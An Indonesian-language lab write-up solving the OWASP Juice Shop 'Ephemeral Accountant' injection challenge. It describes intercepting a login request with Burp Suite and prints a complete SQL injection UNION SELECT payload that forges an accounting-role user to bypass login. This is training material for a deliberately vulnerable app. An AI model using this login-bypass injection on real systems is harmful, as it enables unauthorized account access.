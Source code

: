 # Ephemeral Accountant

Link: https://juice-shop.herokuapp.com/#/score-board?categories=Injection&showDisabledChallenges=false

![alt text](<img/Screenshot 2025-09-10 221513.png>)

1. Masuk ke halaman login

2. Mengaktifkan intercept pada burpsuite kemudian input username dan password

![alt text](<img/Screenshot 2025-09-10 201040.png>)

3. Pilih paket request **POST** pada burpsuite yang berisi username dan password. Kemudian send to repeater.

![alt text](<img/Screenshot 2025-09-10 201102.png>)

4. Berdasarkan soal `Database Schema`, format yang ditemukan pada tabel users adalah sebagai berikut

![alt text](<img/Screenshot 2025-09-10 195949.png>)

5. Mengganti payload berikut pada paket yang dikirim ke repeater sesuai dengan format. Kemudian send.

```
' UNION SELECT * FROM (SELECT 1000 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email','asdfasdf' as 'password', 'accounting' as 'role','' as 'deluxeToken','127.0.0.1' as 'lastLoginIp','default.svg' as 'profileImage','' as 'totpSecret',1 as 'isActive', '2025-09-09 10:12:13.423 +00:00' as 'createdAt', '2025-09-09 10:12:13.423 +00:00' as 'updatedAt', null as 'deletedAt')--
```

![alt text](<img/Screenshot 2025-09-10 205942.png>)

6. Soal berhasil diselesaikan

![alt text](<img/Screenshot 2025-09-10 221423.png>)